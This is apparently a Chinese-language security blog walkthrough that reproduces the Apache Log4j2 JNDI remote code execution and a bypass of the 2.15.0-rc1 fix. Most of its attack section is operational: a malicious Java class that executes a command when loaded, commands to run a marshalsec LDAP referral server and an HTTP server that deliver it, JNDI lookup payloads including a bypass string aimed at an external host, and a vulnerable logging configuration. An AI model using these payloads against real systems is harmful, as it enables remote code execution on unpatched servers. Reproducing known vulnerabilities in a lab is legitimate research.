```yaml
---
layout: about
category: about
wrench: 2021-12-28
toc: true
Researchname: Apache Log4J2 RCE复现历程
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-Log4j2-RCE-WalkThrough/
description: Apache Log4j2 远程代码执行 | Apache Log4j2 RCE | Apache Log4j2 绕过攻击 | Apache Log4j2 Bypass poc
---
```


## [Apache Log4j-v2.x-x RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

> 影响版本：
>
> Apache Log4j 2.x <= 2.15.0-rc1

### Apache Log4j 2.x < 2.15.0-rc1 RCE

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
  - *Tips:2021-12-21更新*：
  - 原仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：
>
> @apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
> java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译代码如下所示：

```java
// com.example.log4j2_rce.Log4j2RceApplication
@PostMapping({"/hello"})
public String hello(String payload) {
  System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
  System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
  logger.error("{}", payload);
  logger.info("{}", payload);
  logger.info(payload);
  logger.error(payload);
  return "ok";
}
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
# 启web
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
```

直接访问加上payload进行攻击：

```java
// $ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {
		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}
	}
}
// $ javac dnslog.java
```

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"
```

```bash
# 启http：
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![ULolm84r2h5yeJS.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/ULolm84r2h5yeJS.png)

### Apache Log4j 2.x >= 2.15.0-rc1 RCE

#### 环境准备

- 快速开始：
- 修改[idea代码直接调试apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/pom.xml)
  代码版本为`<version>2.15.0-rc1</version>`

```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <!--<version>2.14.1</version>-->
  <version>2.15.0-rc1</version>
</dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<!--<version>2.14.1</version>-->
<version>2.15.0-rc1</version>
</dependency>
```

- 我这里是下载好的[Log4j 2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)用maven编译好后本地安装到仓库，所以不会报错；
  - [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)

尝试payload运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`，貌似已经修复了；
但是我们经过手动添加一些选项配置仍然是可以绕过的：

- 添加[src/resources/log4j2.xml](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/src/resources/log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration status="OFF" monitorInterval="30">
  <appenders>
    <console name="Console" target="SYSTEM_OUT">
      <PatternLayout pattern="%m{lookups}%n"/>
    </console>
  </appenders>

  <loggers>
    <root level="all">
      <appender-ref ref="Console"/>
    </root>
  </loggers>
</configuration>
```

- `<PatternLayout pattern="%m{lookups}%n"/>`开启lookup；
- 尝试打印info、debug之类的信息确定配置文件已加载；

```bash
logger.error("hello,error");
logger.info("hello,info");
logger.debug("hello,debug");
#输出如下：
hello,error
hello,info
hello,debug

Process finished with exit code 0
```

#### Bypass攻击

payload：

```
${jndi:ldap://127.0.0.1#.4ra1n.love:1389/badClassName}
```

具体的绕过以及RCE分析可参考[RCE](https://xz.aliyun.com/t/10689#toc-3)和[分析](https://xz.aliyun.com/t/10689#toc-4)；

![SdgnR1A93FV5W6l.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/SdgnR1A93FV5W6l.png)

## 限制

- 目前暂时只知道jdk高版本会报错：

```
[main] ERROR log4j - Reference Class Name: foo
```

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)
- [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649)
- [浅谈Log4j2之2.15.0版本RCE](https://xz.aliyun.com/t/10689)
- [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)
